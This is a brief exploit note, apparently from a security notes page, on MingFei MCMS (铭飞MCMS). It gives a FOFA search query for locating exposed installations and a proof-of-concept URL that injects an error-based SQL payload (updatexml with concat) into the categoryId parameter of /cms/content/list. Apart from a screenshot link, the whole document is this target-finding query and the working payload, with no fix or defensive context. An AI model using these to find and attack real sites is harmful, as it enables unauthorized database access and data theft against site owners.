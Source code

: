 # fofa
```plain
body="铭飞MCMS" || body="/mdiy/formData/save.do" || body="static/plugins/ms/1.0.0/ms.js"
```

# POC
```plain
http://127.0.0.1/cms/content/list?categoryId=1%27%20and%20updatexml(1,concat(0x7e,md5(123),0x7e),1)%20and%20%271
```

![](https://cdn.nlark.com/yuque/0/2024/png/43104311/1727001938473-df6a29eb-cc90-405f-a6fc-aa3adbddb913.png)

